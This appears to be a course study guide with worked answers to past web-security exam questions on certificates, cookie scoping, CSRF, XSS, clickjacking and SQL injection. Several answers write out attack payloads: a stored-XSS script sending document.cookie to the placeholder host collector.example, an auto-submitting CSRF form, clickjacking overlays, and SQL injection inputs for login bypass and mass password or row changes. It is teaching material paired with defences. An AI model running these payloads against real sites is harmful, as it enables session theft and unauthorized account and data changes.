> **Question summary:** What key information is kept in a digital certificate? Explain the certification authority’s role with a figure.

A digital certificate is a signed statement binding an identity/name to a public key. Typical contents include subject name (for a website, the permitted DNS names), subject public key and algorithm, issuer, serial number, validity interval, relevant usage/constraint extensions, signature algorithm and issuer signature.

**CA role.** A certification authority verifies an applicant’s control/identity according to the certificate type, then signs the binding. The browser already trusts selected root CA public keys and verifies a chain through any intermediate CAs to the site certificate.



The client must check chain signatures, permitted names/hostname, validity, CA constraints/key usages and applicable revocation information. A matching hostname cannot be inferred merely because some certificate signature verifies. Root self-signatures are not the original source of trust; preinstallation or deliberate configuration supplies that trust.

The certificate is public. The site proves possession of its corresponding private key during authenticated connection establishment. A CA does not need to carry or decrypt every later message and normally does not supply the site’s private key to visitors.

**Exam tip.** Draw root → intermediate → server and label which key verifies each signature. A certificate establishes an authenticated key binding, not guaranteed honesty of all content hosted by that site.

## Lecture 10 — Cookies, sessions and CSRF

Primary source: [lecture-10-cookies-and-csrf.pdf](<../slides/lecture-10-cookies-and-csrf.pdf>)

<a id="s09"></a>
### S09 · 2023–24 · Q8(b)

**Cookie-send matrix · 10 marks**

Original: [root question PDF, page 9](../../CSE405-Security_Merged.pdf#page=9). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** Three cookies are set by long.moodle.com: theme=dark, Domain=moodle.com, Path=/, Secure=true; auth=ok, Domain=long.moodle.com, Path=/test, Secure=false; file=secret, Domain=moodle.com, Path=/print, Secure=true. Fill the send/not-send matrix for (i) http://print.moodle.com/print, (ii) http://login.moodle.com/, (iii) http://moodle.com/test, (iv) https://moodle.com/print/test, (v) https://login.moodle.com/test/print.

Check domain, path and the Secure flag separately. Cookie 1 covers moodle.com and its subdomains at every path, over HTTPS. Cookie 2 covers **long.moodle.com**, path /test, over either scheme. Cookie 3 covers moodle.com and subdomains under /print, over HTTPS. All three are validly set by long.moodle.com.

| Requested URL | C1 theme | C2 auth | C3 file |
|---|---:|---:|---:|
| (i) http://print.moodle.com/print | 0 | 0 | 0 |
| (ii) http://login.moodle.com/ | 0 | 0 | 0 |
| (iii) http://moodle.com/test | 0 | 0 | 0 |
| (iv) https://moodle.com/print/test | 1 | 0 | 1 |
| (v) https://login.moodle.com/test/print | 1 | 0 | 0 |

For (i)–(iii), Secure blocks C1/C3; none of the five hosts is long.moodle.com or its subdomain, so C2 never matches. In (iv), /print is a matching path prefix. In (v), /print occurs later but is not the path prefix; C3 is absent.

**Exam tip.** `login` and `long` are different labels. Do not treat a substring anywhere in the path as a match. These are the exam’s explicit Domain cookies, not host-only cookies.

<a id="s16"></a>
### S16 · 2022–23 · Q5(c)

**Limits of cookie policy · 11 marks**

Original: [root question PDF, page 12](../../CSE405-Security_Merged.pdf#page=12). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Analyze how effective cookie policies are at (i) preventing CSRF, (ii) preventing session hijacking through XSS and (iii) preserving confidentiality of stored cookies.

**(i) CSRF.** Ordinary Domain/Path cookie matching is insufficient: an attacker can induce a request **to the legitimate target**, and the target’s own cookie matches that request. The browser authenticates the account, not the user’s intention. SameSite can limit cross-site attachment; unpredictable session-bound CSRF tokens and appropriate Origin/Referer checks provide additional protection. A Secure or HttpOnly flag alone does not stop CSRF.

**(ii) XSS session hijacking.** Injected script runs as the victim site, so the domain/origin isolation boundary does not exclude it. If a session cookie is script-readable, XSS can read it and export it. HttpOnly blocks that specific reading path. However, the script can still make same-origin requests that automatically include the cookie, so HttpOnly does not cure XSS. Use contextual output encoding/safe DOM APIs and CSP as defense in depth.

**(iii) Stored-cookie confidentiality.** Domain/Path rules govern browser delivery, not disk encryption. Secure protects network transmission; HttpOnly restricts page scripts. Neither promises protection from someone who can read the browser profile or compromise its user account. OS/browser storage protection, device security, token expiration and server-side revocation address different parts of that threat.

**Exam tip.** Organize the answer by the three threat locations: unwanted request, hostile script inside a trusted page, and local storage access. Cookie policy is not a complete defense against all three.

<a id="s20"></a>
### S20 · 2022–23 · Q7(a)

**CSRF synchronizer token; refreshing only on POST · 15 marks**

Original: [root question PDF, page 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** The server puts a random CSRF token in each page’s DOM/hidden form field, and accepts a request only with a valid cookie and POST token. Tokens are refreshed on POST. Explain protection without special browser support; evaluate refreshing only on POST instead of on both GET and POST.

**(i) Why it works.** On a legitimate page the server creates an unpredictable token T bound to the authenticated session and includes it in a hidden field. A submitted state-changing POST must carry both the session cookie and T. The attacker can induce a cookie-bearing request, but cannot read the victim’s page token across origins. A token obtained in the attacker’s own session does not validate for the victim.


The server compares the submitted token with the expected session-bound value before changing state. Cookies alone are automatic; the additional token is not automatically copied into a forged form. A b-bit uniform token permits roughly $2^{-b}$ success per independent guess, with rate limiting further bounding attempts.

“No special browser support” means no new CSRF-specific browser feature is required. The reasoning still assumes baseline browser origin isolation, no XSS/token leakage, authenticated transport where needed, and server validation. A hidden field is not secret from the user or same-origin JavaScript; its protection is from the remote attacker.

**(ii) Refresh only on POST versus GET and POST.** Rotating on every GET can invalidate forms in other tabs or cause a cross-site image/link request to invalidate a pending form, creating usability and denial-of-service problems. Rotating after an accepted state-changing POST reduces such accidental invalidation. GET must not change protected state, so it normally needs no token-consuming operation.

Per-POST rotation still creates multi-tab/back-button races if the server stores only one current token. A well-designed per-session token or multiple valid per-request tokens may offer a better balance. Rotation is not what fundamentally blocks CSRF: unpredictability, session binding and validation are. If a GET performs a sensitive change, leaving GET unprotected is a vulnerability, regardless of refresh policy.

**Exam tip.** Explain the attacker’s missing information, then discuss usability. Do not claim that more frequent refresh always means stronger practical security.

<a id="s40"></a>
### S40 · 2020–21 · Q5(a)

**Authenticate UDP messages with a cookie/token; prevent replay · 15 marks**

Original: [root question PDF, page 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Bob uses UDP for a streaming service because confidentiality is unnecessary and he cannot use TLS/HTTPS. He needs integrity so attackers cannot impersonate the sender or alter or replay messages. Explain how to achieve this using cookies.

**A visible bearer cookie alone is insufficient.** If an observer can copy a token that is accepted as the only credential, they can replay it or impersonate its holder. Likewise, using the public cookie value itself as an HMAC key lets the observer forge tags. The goal permits cleartext content, not exposure of the authentication secret.

**One complete construction: authenticated session establishment plus MACed datagrams.** Assume the client and service establish a secret session key K by an authenticated exchange—for example, signed ephemeral DH with a pre-trusted server verification key, or a pre-shared secret. This is possible without running TLS, but cannot dispense with all initial trust. Derive separate directional keys Kcs/Ksc using a KDF. The server gives the client a session identifier/cookie sid and expiry, binding sid to the session and identity.

For a client→server message:

```text
packet = (sid, direction, seq, payload, tag)
tag = HMAC(Kcs, encode(sid,direction,seq,payload))
```

The server looks up the appropriate secret key from sid, validates the tag, checks expiry, then rejects any seq already accepted. Use a replay bitmap/window if UDP reordering must be tolerated. Reverse direction uses Ksc and its own sequence-number space. Record the accepted counter atomically after successful verification.

- **Impersonation:** an observer can copy sid but cannot compute new valid tags without the secret key.
- **Alteration:** payload and associated fields are MAC-covered, so modification invalidates the tag.
- **Replay:** an old valid packet is rejected by the tracked sequence number; a MAC alone would accept it again.
- **Confidentiality:** payload can remain unencrypted, as permitted by the question.

A signed/self-authenticating cookie can reduce server state for the cookie’s integrity, but replay detection still needs state or a carefully specified freshness mechanism. If no shared secret is possible, digital signatures on datagrams plus an authentic verification key and sequence checking are another authentication approach.

**Exam tip.** Raw UDP does not automatically carry HTTP cookies. Treat the cookie as an application token field, state how secret keys are established, and explicitly include replay protection. Sending a fresh MAC key in cleartext defeats the design even if the application content need not be confidential.

<a id="s42"></a>
### S42 · 2020–21 · Q6(a)

**CSRF plus stored XSS in a social-network friend request · 15 marks**

Original: [root question PDF, page 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Trudy builds trudymalicious.com. On a visitor A’s arrival, make A send Trudy a friend request and change A’s homepage so anyone visiting it sends Trudy a friend request. No CSRF/XSS defenses exist. The supplied GET is http://www.networksocial.com/action/friends/add?friend=20. Explain the malicious site.

**Part (i): forge the visitor’s friend request.** Trudy serves a page containing:

```html

```

When logged-in A visits, the browser sends the GET to NS. Under the paper’s vulnerable cookie/CSRF assumptions it includes A’s session cookie, so NS interprets the action as A adding Trudy. The image need not successfully display; sending the request is sufficient.

**Part (ii): store active content in A’s homepage using CSRF.** Trudy’s page also auto-submits a form to NS’s profile-update endpoint, setting A’s homepage field to the same malicious image (or equivalent script). For example, where the paper omits endpoint/field names:

```html
<form id="change" method="POST" action="PROFILE_UPDATE_ENDPOINT">
  <input type="hidden" name="HOMEPAGE_FIELD"
    value='&lt;img src="http://www.networksocial.com/action/friends/add?friend=20"&gt;'>
</form>
<script>document.getElementById('change').submit();</script>
```

`PROFILE_UPDATE_ENDPOINT` and `HOMEPAGE_FIELD` must be replaced by NS’s actual authenticated profile-edit interface; the prompt does not name them. HTML entity decoding gives the submitted field its literal `` markup. A’s browser attaches A’s cookie to that update. With no CSRF checks, the server stores it; with no XSS/output-encoding defense, later profile viewers receive active content. Each logged-in viewer’s browser sends its own friend-add request to Trudy.


This is a CSRF initial profile change followed by persistent HTML/script injection. If the stored content also copies itself into every viewer’s profile, it becomes a self-propagating worm; replication is an optional extension, not needed to meet the stated “every visitor adds Trudy” requirement.

Defenses: CSRF tokens on profile changes; no state-changing GETs; contextual output encoding/sanitization; CSP and appropriate cookie restrictions. The example assumes the legacy vulnerable behavior specified in the paper, not every modern browser’s default SameSite configuration.

**Exam tip.** Distinguish whose cookie authenticates each step: A for the profile update, then each later viewer for that viewer’s own friend request.

<a id="s45"></a>
### S45 · 2020–21 · Q7(b)

**Cookie-send matrix · 10 marks**

Original: [root question PDF, page 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Cookies set by docs.example.com: file=main, Domain=example.com, Path=/, Secure=true; file=test, Domain=docs.example.com, Path=/test, Secure=false; file=print, Domain=example.com, Path=/print, Secure=true. Determine which are sent to (i) http://print.example.com/print, (ii) https://docs.example.com/, (iii) http://example.com/test, (iv) https://example.com/print/test, (v) https://docs.example.com/test/print.

**Correction to the earlier index:** the scanned paper marks Cookie 2 **non-secure**, not secure. Its explicit Domain is docs.example.com and Path is /test. Cookies 1 and 3 have Domain=example.com (a leading dot is immaterial here), are Secure, and have paths / and /print respectively.

| Requested URL | C1 main | C2 test | C3 print |
|---|---:|---:|---:|
| (i) http://print.example.com/print | 0 | 0 | 0 |
| (ii) https://docs.example.com/ | 1 | 0 | 0 |
| (iii) http://example.com/test | 0 | 0 | 0 |
| (iv) https://example.com/print/test | 1 | 0 | 1 |
| (v) https://docs.example.com/test/print | 1 | 1 | 0 |

(i): C1/C3 fail HTTPS and C2 fails domain. (ii): C1 matches; neither /test nor /print matches root path /. (iii): C2 would permit HTTP but **example.com is not docs.example.com**, so it is absent; the Secure cookies fail. (iv): C1/C3 match; C2’s domain does not. (v): C1/C2 match; /print is not a prefix of /test/print.

All cookies have the same name `file`. When two match, both values may be transmitted; the question asks which cookies qualify, not which one “wins.” Do not infer a safe server-side choice from the name alone. The Secure correction does not change any of these five matrix cells, but it matters for hypothetical HTTP requests to docs.example.com/test.

**Exam tip.** Check flags from the scan and test domain/path independently. A child-domain cookie is not sent upward to its parent domain.

<a id="s47"></a>
### S47 · 2020–21 · Q8(c)

**Invalidate session cookies after password change · 15 marks**

Original: [root question PDF, page 21](../../CSE405-Security_Merged.pdf#page=21). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** Bob’s authentication cookie expires after one year. Changing a password only updates the database. Explain Alice’s advice that resetting the password must also reset the authentication cookie.

**The session cookie is an independent credential.** Updating a password changes the condition for obtaining a new session; it does not automatically invalidate tokens already accepted by the server. An attacker who stole a valid year-long session can continue authenticating without knowing the new password.

Example: a user logs in on a shared computer, forgets to log out, then changes their password elsewhere. Unless the old session is revoked, that browser remains logged in. The same issue applies to a token stolen through XSS or a compromised device.

**Required repair:** invalidate all old sessions for that account on a security-sensitive password reset/change, then optionally issue a fresh session to the user who completed reauthentication. Deleting or replacing only the current browser’s cookie is insufficient; the server must reject copies of old tokens.

For opaque session IDs, delete/revoke the account’s session-table entries. For signed/JWT tokens, enforce short expiry and a revocation/version mechanism, such as a per-user session epoch included in the signed token and checked against the current server-side epoch. **An epoch check requires state**; it is not fully stateless revocation. A token’s own signature and expiration cannot learn that a password changed elsewhere.

**Exam tip.** Separate browser cookie removal, server-side invalidation and fresh-token issuance. Revocation is the key part of the answer.

## Lecture 11 — XSS and UI Attacks

Primary source: [lecture-11-xss-and-ui-attacks.pdf](<../slides/lecture-11-xss-and-ui-attacks.pdf>)

<a id="s11"></a>
### S11 · 2023–24 · Q8(d)

**Stored versus reflected XSS · 10 marks**

Original: [root question PDF, page 10](../../CSE405-Security_Merged.pdf#page=10). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** Define XSS and explain the difference between stored and reflected XSS using diagrams.

XSS occurs when attacker-controlled content is interpreted as active script in a trusted website’s page. The script executes with that page’s origin and can modify its DOM, read accessible data and issue authenticated requests.

| Property | Stored XSS | Reflected XSS |
|---|---|---|
| Payload location | Persisted in comments/profile/database | Carried in a request, often a URL parameter |
| Trigger | A victim views the contaminated page | Victim follows a crafted link/request |
| Server behavior | Serves stored input as active HTML/script | Echoes request input as active HTML/script |
| Reach | Can affect many later visitors | Usually needs a victim-specific lure/request |


Example stored path: malicious guest-book entry → database → another visitor’s rendered page. Example reflected path: `/search?q=<script>...</script>` → server echoes q without context-appropriate escaping → browser executes it.

Defend with contextual output encoding; use safe DOM APIs such as textContent for text; sanitize intentionally permitted rich HTML; add CSP as defense in depth. HttpOnly prevents JavaScript from reading that cookie but does not prevent malicious script from sending authenticated requests from the victim page. CSRF tokens alone do not cure same-origin script execution.

**Exam tip.** The distinction is persistence/data flow, not “stored executes at the server.” Both execute in the victim’s browser.

<a id="s21"></a>
### S21 · 2022–23 · Q7(c)

**Stored versus reflected XSS · 7 marks**

Original: [root question PDF, page 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Briefly explain how reflected XSS differs from stored XSS.

**Stored XSS:** an attacker submits active content to persistent storage, such as a comment or profile. Later victims receive it as part of a trusted page and their browsers execute it. No new crafted request from the attacker is required for each victim.

**Reflected XSS:** attacker input arrives in the victim’s request and is immediately echoed into the response as executable content. The attacker usually lures the victim to a crafted URL or form submission.

```text
Stored:    attacker → stored entry → server page → victim executes
Reflected: crafted link → victim request → echoed response → victim executes
```

Both exploit unsafe interpretation of input as code and execute in the browser under the affected page’s origin. Use output encoding suitable for the HTML/attribute/JavaScript context, safe DOM operations and sanitization for permitted rich HTML; CSP adds defense in depth.

**Exam tip.** The database is not the execution environment. A stored payload is stored at the server but normally executes in a victim’s browser.

<a id="s23"></a>
### S23 · 2022–23 · Q8(b)

**SMS 2FA against phishing · 8 marks**

Original: [root question PDF, page 14](../../CSE405-Security_Merged.pdf#page=14). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Is SMS-based two-factor authentication an effective defense against phishing? Justify.

**SMS 2FA helps against a stolen password alone, but does not reliably defeat interactive phishing.** A relay phishing site asks for the password, immediately submits it to the genuine service, asks the victim for the SMS code, and forwards that code before it expires. The real service sees valid factors and issues a session to the attacker.



An expiring or one-time code reduces replay but not live forwarding. SMS also inherits phone-account and delivery-channel risks; those are separate from the phishing mechanism asked here.

A stronger defense is an origin-bound authenticator such as WebAuthn used correctly: the authenticator’s response is bound to the legitimate relying party, so the phishing origin cannot simply request a response valid for a different site. The site still needs sound session management.

**Exam tip.** Avoid a bare yes/no. Name the threat it stops—password-only compromise—and show why a live relay can still succeed.

<a id="s24"></a>
### S24 · 2022–23 · Q8(c)

**Clickjacking with iframes; repeated-click redirection · 12 marks**

Original: [root question PDF, page 14](../../CSE405-Security_Merged.pdf#page=14). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** Describe clickjacking in two cases: (i) overlay a fake free-subscription button on an iframe advertisement so a visitor unknowingly clicks a paid buy button; (ii) an embedded public-exam result form whose first click goes to Twitter, second to Facebook, and third finally fetches the result.

**(i) Fake subscription button above a purchase action.** Eve embeds WorstPay in an iframe and positions its real buy button under a visible “free Getflix” button. The frame is transparent and lies above the decoy in the click stack, so the user’s click reaches the purchase button. An authenticated victim may complete an action they did not intend. Eve need not read or modify the cross-origin iframe’s DOM; knowing the button’s approximate screen position is enough.


**(ii) Twitter, Facebook, then the real results.** Eve places two transparent links over the apparent submit button, one above the other. On the first click the top link opens Twitter and is removed; on the second the next opens Facebook and is removed; on the third the unobstructed iframe receives the click and performs its normal result request. For example:

```html
<!-- All layers positioned over the iframe's submit-button coordinates. -->
<a class="overlay top" href="https://twitter.com/" target="_blank"
   rel="noopener" onclick="this.remove()"></a>
<a class="overlay lower" href="https://facebook.com/" target="_blank"
   rel="noopener" onclick="this.remove()"></a>
<iframe src="RESULT_SITE_URL"></iframe>
```

The anchors’ z-index values order the first two clicks; each has a transparent hit area. Use new tabs/windows so Eve’s page and filled iframe remain available for subsequent clicks. Exact navigation behavior and button coordinates are assumptions, not a right to inspect the frame across origins.

**Defense.** The framed target sends an appropriate CSP `frame-ancestors` policy, optionally with X-Frame-Options for older clients. Sensitive-action confirmation can reduce damage. A parent page cannot undo a correctly enforced target framing restriction. [OWASP’s framing-defense guidance](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html).

**Exam tip.** Show the click order and where the event actually lands. Cross-origin framing may be allowed even though cross-origin DOM reading is forbidden.

<a id="s38"></a>
### S38 · 2021–22 · Q7(b)

**Clickjacking versus phishing · 12 marks**

Original: [root question PDF, page 17](../../CSE405-Security_Merged.pdf#page=17). Sitting date: 30 October 2023. Printed Section B.

> **Question summary:** Differentiate clickjacking and phishing with examples.

**Phishing** deceives the user about whom they are interacting with, often using a fake login site, email or lookalike domain. Example: the victim submits a password to a site that imitates the bank.

**Clickjacking** deceives the user about what their click will activate. A hidden or transparent bank iframe is aligned with a visible decoy button; the victim is genuinely on an attacker-controlled surrounding page but clicks the bank’s real control.

| Point | Phishing | Clickjacking |
|---|---|---|
| Main deception | Identity/context of service | Target/meaning of UI action |
| Typical mechanism | Imitation site or social lure | Framing, layering, cursor/timing tricks |
| Must steal a password? | Often, but not always | No; can exploit an existing logged-in session |
| Useful defenses | Origin-bound authentication, accurate origin recognition | CSP frame-ancestors, framing restrictions, sensitive-action confirmation |

**Exam tip.** Clickjacking can occur without reading the embedded frame. Same-origin policy prevents cross-origin data access; it is not a universal ban on embedding or delivering user clicks.

<a id="s60"></a>
### S60 · 2018–19 · Q4(b)

**Pharming versus phishing · 8 marks**

Original: [root question PDF, page 26](../../CSE405-Security_Merged.pdf#page=26). Sitting date: 24 October 2019. Printed Section A.

> **Question summary:** Distinguish pharming and phishing, with examples.

**Phishing** lures a victim into trusting a fraudulent message/site. Example: an email asks the victim to log in at a lookalike bank domain, where the attacker collects credentials.

**Pharming** redirects a victim’s attempt to reach a legitimate service to an attacker-controlled destination, often through malicious DNS responses, poisoned resolver data, altered hosts configuration or a compromised router. The victim may type the correct hostname and still be directed to the wrong IP.

| Feature | Phishing | Pharming |
|---|---|---|
| Typical manipulation | Lure, domain appearance, service identity | Name resolution or routing/configuration |
| User may type the real address | Not required | Yes |
| Example | Fake login link | DNS poisoning sends bank hostname to attacker |
| Relevant defenses | Origin-bound authentication, careful origin handling | Protect DNS/router/hosts configuration; authenticated DNS where appropriate; proper TLS hostname/certificate validation |

Proper TLS validation can reveal that the redirected endpoint lacks a valid certificate for the real hostname; users must not bypass warnings. HTTPS on a lookalike phishing domain authenticates that lookalike name, not the bank. The attacks can be combined.

**Exam tip.** Identify the redirect mechanism in the pharming example. Neither technique requires guessing the victim’s password beforehand.

<a id="s67"></a>
### S67 · 2018–19 · Q12(a)

**Stored XSS in a guest book; malicious page actions · 15 marks**

Original: [root question PDF, page 30](../../CSE405-Security_Merged.pdf#page=30). Sitting date: 24 October 2019. Printed Section B.

> **Question summary:** As Sammy (id=40), write a script in the guest-book Message field to demonstrate XSS damage. The first paragraph has id p1 and the friend-add action for user id 100 is http://vulnerable.com/action/friend/add?id=100.

This is a **stored XSS** exercise: the guest-book Message is saved and later inserted into HTML without appropriate escaping. Each viewer runs the injected script as vulnerable.com, not as Sammy’s separate origin.

A representative payload for the deliberately vulnerable exam site is:

```html
<script>
// 1. Deface the trusted page.
const p = document.getElementById('p1');
if (p) p.textContent = 'This guest book has an XSS vulnerability.';

// 2. Make the viewer send a friend request to Sammy (id 40).
new Image().src = '/action/friend/add?id=40';

// 3. Demonstrate export of script-readable cookie data.
// collector.example is a placeholder, not a configured service.
fetch('https://collector.example/receive', {
  method: 'POST', mode: 'no-cors', body: document.cookie
});
</script>
```

The supplied friend-add example uses id=100 to explain the endpoint’s format. Change it to **40** to benefit Sammy, whose id the question provides. `p1` is the exact supplied DOM element identifier. The image-generated GET carries the viewer’s applicable cookies under the paper’s vulnerable behavior, making the action occur as that viewer.

The examples demonstrate three distinct consequences: integrity of displayed content, unauthorized authenticated actions, and confidentiality loss for data available to script. An attacker could also read accessible page data, alter forms or distribute a malicious lure. “All damages” cannot mean arbitrary OS file access: XSS remains subject to the browser sandbox and other controls.

**Limits and defenses.** HttpOnly prevents reading that cookie via document.cookie, but does not stop same-origin authenticated actions. CSP may block the inline script or export destination. Contextual escaping/sanitization of guest-book content is the root repair; avoid state-changing GETs, use CSRF protection, and apply CSP/cookie restrictions as additional controls. This payload assumes the vulnerable behavior stipulated by the exam rather than bypassing every modern defense.

**Exam tip.** Identify the victim as each visitor, not the attacker who submitted the entry, and use Sammy’s id rather than copying the endpoint’s example id unchanged.

<a id="s74"></a>
### S74 · 2023–24 · Q3(a)

**Limits of HTTPS/firewall/NIDS protection against reflected XSS · 10 printed marks (mixed question)**

Original: [root question PDF, page 4](../../CSE405-Security_Merged.pdf#page=4). Sitting date: 06 September 2025. Printed Section A.

> **Question summary:** For the HTTPS-only server farm protected by a firewall and NIDS, assess whether reflected XSS can always be prevented when the attacker is on path.

**Sec B scope:** Only case (2), reflected XSS, is in Sec B scope. The other four network-defense cases are covered in Sec A. The printed 10 marks cover all five cases; no per-case mark allocation is given.

**HTTPS plus a firewall/NIDS cannot always prevent reflected XSS.** The vulnerable application can copy attacker-controlled input into a response as executable browser content. TLS can then deliver that response faithfully to the victim; it does not make the response safe. The script executes with the vulnerable page's origin and can perform actions available to that origin.

A network IDS outside TLS termination normally cannot inspect the encrypted HTTP payload. Inspection at or after termination improves visibility, but a generic filtering rule still does not guarantee correct interpretation of every application output context. A passive NIDS may only alert rather than block anything.

The primary repair is **safe rendering at the application**: apply encoding appropriate to the HTML, attribute, URL or script context; use safe templating and DOM APIs; and avoid interpreting untrusted input as executable markup or script. If rich HTML is genuinely required, use a suitable sanitizer with an explicit policy. A restrictive Content Security Policy can reduce impact as an additional layer. Neither the same-origin policy nor transport encryption repairs an injection already executing in the trusted page's origin.

**Exam tip.** Explain the layer boundary: authenticated transport and packet filtering do not guarantee that the application's response is safe to execute.

## Lecture 12 — SQL Injection and CAPTCHAs

Primary source: [lecture-12-sql-injection-and-captchas.pdf](<../slides/lecture-12-sql-injection-and-captchas.pdf>)

<a id="s10"></a>
### S10 · 2023–24 · Q8(c)

**Login bypass; prepared statements · 10 marks**

Original: [root question PDF, page 10](../../CSE405-Security_Merged.pdf#page=10). Sitting date: 06 September 2025. Printed Section B.

> **Question summary:** The backend concatenates username and password into SELECT * FROM users WHERE username=... AND password=.... The table includes Alice with password password123. Determine whether SQL injection is possible; give concrete login inputs to log in as Alice without her password; explain how prepared statements prevent it.

**Yes: the SQL parser receives attacker-controlled syntax.** Enter:

```text
username: alice' -- 
password: anything
```

The trailing space after `--` is intentional for MySQL-style comments. The resulting query is:

```sql
SELECT * FROM users
WHERE username = 'alice' -- ' AND password = 'anything';
```

The commented password predicate is never evaluated, so Alice’s row is returned. This assumes the application treats that returned row as a successful login, as the question’s logic implies.

**Prevention:** parameter binding keeps data separate from SQL syntax:

```text
stmt = prepare("SELECT id, password_hash FROM users WHERE username = ?")
row = execute(stmt, [submitted_username]).one_or_none()
accept only if row exists and password_verify(submitted_password, row.password_hash)
```

The payload becomes a literal username string instead of changing the query. For a direct repair of the paper’s plaintext-password model, use `WHERE username=? AND password=?` with both parameters bound, but real password verification should use salted password hashes.

**Exam tip.** Write the expanded SQL, not just the input. One correctly formed statement is enough; stacked statements are unnecessary. Parameterization, not merely limiting statement count, fixes the syntax boundary. [OWASP’s parameterization guidance](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html).

<a id="s18"></a>
### S18 · 2022–23 · Q6(b)

**INSERT-query injection; bypass a cart quantity restriction · 10 marks**

Original: [root question PDF, page 13](../../CSE405-Security_Merged.pdf#page=13). Sitting date: 18 April 2024. Printed Section B.

> **Question summary:** WorstBUY executes a formatted INSERT INTO cart(session,item) statement for each POST request. Alice cannot add more than three items through the website. Construct a POST request that inserts 100 pens, then give a preventive measure against SQL injection.

The vulnerable statement is:

```sql
INSERT INTO cart(session,item) VALUES ('S','ITEM')
```

Here S denotes Alice’s actual session token. Since ITEM is interpolated as SQL text, Alice can end its first tuple and append more tuples **inside the same INSERT**. One pen is inserted by the original tuple; add 99 more for a total of 100.

The following constructs the POST body, rather than printing 99 nearly identical tuples:

```python
from urllib.parse import urlencode
S = "ALICES_ACTUAL_SESSION_TOKEN"
extra = ",".join("('" + S + "','pen')" for _ in range(99))
item = "pen')," + extra + " -- "
body = urlencode({"item": item})
```

Send `body` in an `application/x-www-form-urlencoded` POST to the cart’s existing add-item endpoint, with Alice’s normal session cookie. The resulting SQL is:

```sql
INSERT INTO cart(session,item) VALUES
('S','pen'),('S','pen'), ... 100 total tuples ... -- ')
```

The illustration assumes a database supporting multi-row VALUES and `-- ` comments, and Alice knows her own session value. The question does not supply a literal endpoint name. The original three-item UI restriction is bypassed because a single backend call inserts many rows.

**Prevent SQL injection** with `INSERT INTO cart(session,item) VALUES (?,?)` and bound values. Enforce the **business rule** independently: check the resulting cart quantity server-side, using a transaction/locking or an appropriate database constraint so concurrent requests cannot bypass it. A client-side limit is insufficient even after SQL injection is fixed.

**Exam tip.** Count 1 original row + 99 injected rows. “Only one SQL statement” does not prevent this; no semicolon or stacked statement is needed.

<a id="s41"></a>
### S41 · 2020–21 · Q5(b)

**Single-statement SQL injection in a password-change form · 10 marks**

Original: [root question PDF, page 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022. Printed Section B.

> **Question summary:** A C++ web server allows only one SQL statement per database call. Show how SQL injection in the displayed old-password/new-password login form can still change everyone’s password.

**Restricting the backend to one SQL statement does not prevent injection within that statement.** The question supplies a password-change form but no exact query, so state a conventional vulnerable implementation:

```sql
UPDATE users SET password='NEW'
WHERE username='CURRENT_USER' AND password='OLD'
```

Put the following in the new-password field (and anything in old password):

```text
chosen_password' WHERE 1=1 -- 
```

After interpolation:

```sql
UPDATE users SET password='chosen_password' WHERE 1=1 -- '
WHERE username='CURRENT_USER' AND password='anything'
```

The comment suppresses the intended WHERE restriction; every row is updated by the **same UPDATE statement**. The trailing space after `--` is relevant for MySQL-style comments. This assumes the application trusts that one query as its password check/update, with no prior independent verification. Different query placement may require a different payload; without source, no unique byte-for-byte input is guaranteed.

**Repair:** look up the current authenticated user with a bound identifier, verify the old password against its stored hash, then update only that user’s password hash through a prepared statement. Scope the update using the server’s authenticated user identity, not an arbitrary submitted username. Database privileges should limit damage.

**Exam tip.** Show the expanded statement and how its predicate changes. Do not use a semicolon followed by a second UPDATE—the prompt explicitly removes that avenue.

<a id="s64"></a>
### S64 · 2018–19 · Q8(b)

**Short notes; answer any three of four · 9 marks**

Original: [root question PDF, page 28](../../CSE405-Security_Merged.pdf#page=28). Sitting date: 24 October 2019. Printed Section B.

> **Question summary:** Write short notes on any three: (i) Faraday cage, (ii) blind SQL injection, (iii) impersonation token, (iv) homograph attack.

The paper asks any three short notes; all four are supplied here.

**(i) Faraday cage.** A conducting enclosure attenuates electromagnetic fields across its boundary, helping isolate radio communications or reduce electromagnetic leakage. It can be used for shielding sensitive equipment or isolating wireless devices. Effectiveness depends on frequency, conductivity, seams, apertures and cables; an arbitrary metal box does not guarantee perfect shielding or erase stored data.

**(ii) Blind SQL injection.** Input changes SQL execution even though query results are not directly returned. An attacker infers a predicate from a page difference, an error/no-error outcome, or a controlled time delay. For example, two inputs differing only in a true/false predicate may produce consistently different responses. Prevent by binding values to prepared statements, limiting database privileges and avoiding unnecessary query/error exposure. Hiding results alone is not a fix.

**(iii) Impersonation token.** In operating-system security, a token represents an identity and associated permissions. A service may use a client’s impersonation token to perform an operation with that client’s authority rather than its own broader authority. Incorrect handling or theft can permit identity/privilege misuse. Distinguish this from a web session bearer token, whose copied value lets a requester be treated as its associated user; the precise course context should determine the intended meaning. In both cases, possession/delegation and scope matter.

**(iv) Homograph attack.** Visually similar characters in a domain or identifier create a deceptive resemblance to a trusted name. The browser’s origin/DNS string can differ while the user sees something familiar. An example is mixing Latin and visually similar Cyrillic letters. Origin-bound password managers/authenticators and careful display/identifier handling reduce the risk; a valid certificate for the lookalike domain does not certify equivalence to the real brand.

**Exam tip.** Each selected note is only 3 marks: definition, concrete mechanism/example and one limitation/defense are usually enough. The “impersonation token” terminology is not fully explained in the supplied notes, so the ambiguity is explicit rather than forced into a web-only definition.

<a id="s65"></a>
### S65 · 2018–19 · Q11(a)

**UPDATE injection to change password and salary · 5 marks**

Original: [root question PDF, page 29](../../CSE405-Security_Merged.pdf#page=29). Sitting date: 24 October 2019. Printed Section B.

